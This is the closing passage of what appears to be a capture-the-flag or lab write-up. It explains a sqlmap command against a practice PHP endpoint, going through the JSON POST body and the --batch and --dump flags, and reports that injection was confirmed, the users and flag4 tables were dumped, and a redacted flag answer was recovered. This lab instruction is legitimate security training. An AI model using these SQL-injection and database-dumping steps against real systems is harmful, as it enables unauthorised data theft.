[14:49:00] [INFO] fetched data logged to text files under '/home/—REDACTED—/.local/share/sqlmap/output/—REDACTED—'

[*] ending @ 14:49:00 /2026-10-21/
```

**Breakdown:**

- `sqlmap` invokes the tool
- `'http://—REDACTED—:40363/case4.php'` is the target URL
- `-H 'User-Agent: ...'`, `-H 'Accept: ...'`, `-H 'Accept-Language: ...'`, `-H 'Accept-Encoding: ...'`, `-H 'Referer: ...'`, `-H 'Sec-GPC: 1'`, `-H 'Connection: keep-alive'`, `-H 'Upgrade-Insecure-Requests: 1'`, `-H 'Priority: u=0, i'` each replicate one header from the original browser request
- `--data '{"id": 1}'` sends a JSON-formatted POST body. No manual `*` marker was needed here, as SQLMap detected the JSON body and parsed its field automatically
- `--batch` skips every interactive prompt by automatically choosing the default option
- `--dump` dumps the contents of any table SQLMap enumerates, once an injection point is confirmed

SQLMap recognised the JSON body on its own, tested the `id` field as `JSON id`, confirmed injection through the same five technique types as the previous cases, enumerated `testdb` again, and dumped both `users` and `flag4`. The `flag4` table returned a single row holding the flag.

**Answer:** `—REDACTED—`